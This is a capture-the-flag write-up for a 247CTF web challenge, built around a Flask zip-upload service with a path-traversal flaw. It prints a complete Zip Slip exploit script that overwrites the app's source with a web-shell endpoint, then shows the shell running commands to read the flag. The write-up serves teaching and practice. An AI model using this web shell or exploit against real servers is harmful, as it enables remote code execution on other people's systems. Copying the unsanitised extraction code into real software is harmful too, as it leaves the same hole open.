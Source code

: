 # SLIPPERY UPLOAD [MODERATE]

## Description

> Can you abuse the zip upload and extraction service to gain code execution on the server?

## Source Code

<details><summary>Click here for /app/run.py in text format</summary>

```python
from flask import Flask, request
import zipfile, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32)
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['UPLOAD_FOLDER'] = '/tmp/uploads/'

@app.route('/')
def source():
    return '<pre>%s</pre>' % open('/app/run.py').read()

def zip_extract(zarchive):
    with zipfile.ZipFile(zarchive, 'r') as z:
        for i in z.infolist():
            with open(os.path.join(app.config['UPLOAD_FOLDER'], i.filename), 'wb') as f:
                f.write(z.open(i.filename, 'r').read())


@app.route('/zip_upload', methods=['POST'])
def zip_upload():
    try:
        if request.files and 'zarchive' in request.files:
            zarchive = request.files['zarchive']
            if zarchive and '.' in zarchive.filename and zarchive.filename.rsplit('.', 1)[1].lower() == 'zip' and zarchive.content_type == 'application/octet-stream':
                zpath = os.path.join(app.config['UPLOAD_FOLDER'], '%s.zip' % os.urandom(8).hex())
                zarchive.save(zpath)
                zip_extract(zpath)
                return 'Zip archive uploaded and extracted!'
        return 'Only valid zip archives are acepted!'
    except:
         return 'Error occured during the zip upload process!'

if __name__ == '__main__':
    app.run()
```

</details>

## Short Solution Description / Tags

Zip Slip, RCE

## Solution

By Zip Slip, overwrite the source code to add an endpoint for a web shell, and get the flag.

Append the following to run.py:

```python
@app.route("/webshell")
def webshell():
    try:
        from flask import request
        import subprocess

        ret = subprocess.run(
            request.args.get("cmd", "id"),
            shell=True,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
        )
        return ret.stdout.decode()

        # import sys
        # return sys.version  # 3.6.9 (default, Oct 17 2019, 11:17:29) [GCC 6.4.0]
    except:
        import traceback

        return traceback.format_exc()
```

solver.py

```python
from zipfile import ZipFile
import io
import requests
import sys

requests.packages.urllib3.disable_warnings()

s = requests.Session()
# s.proxies = {"https": "http://127.0.0.1:8080"}
s.verify = False

BASE_URL = "https://4668feb753b32af6.247ctf.com"


def main():
    # upload zip
    if len(sys.argv) != 2:
        zip_buffer = io.BytesIO()
        with ZipFile(zip_buffer, "w") as zip:
            zip.writestr("../../app/run.py", open("run.py").read())

        r = s.post(
            f"{BASE_URL}/zip_upload",
            files={
                "zarchive": (
                    "tmp.zip",
                    zip_buffer.getvalue(),
                    "application/octet-stream",
                )
            },
        )
        print(r.text)

    # Command Execution
    else:
        cmd = sys.argv[1]
        r = s.get(f"{BASE_URL}/webshell", params={"cmd": cmd})
        print(r.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py  # upload zipfile
Zip archive uploaded and extracted!

$ python3 solver.py 'id'  # command execution
uid=100(nginx) gid=101(nginx) groups=82(www-data),101(nginx),101(nginx)

$ python3 solver.py 'ls'
flag_33cd0604f65815a9375e2da04e1b8610.txt
run.py

$ python3 solver.py 'cat flag_33cd0604f65815a9375e2da04e1b8610.txt'
247CTF{******}
```

## References

- [Zip Slip Vulnerability \| Snyk](https://security.snyk.io/research/zip-slip-vulnerability)
- [zipslip/zipslip.py at main · Ch0pin/zipslip](https://github.com/Ch0pin/zipslip/blob/main/zipslip.py)
- [zipfile — Work with ZIP archives — Python 3.12.1 documentation](https://docs.python.org/3/library/zipfile.html#zipfile-objects)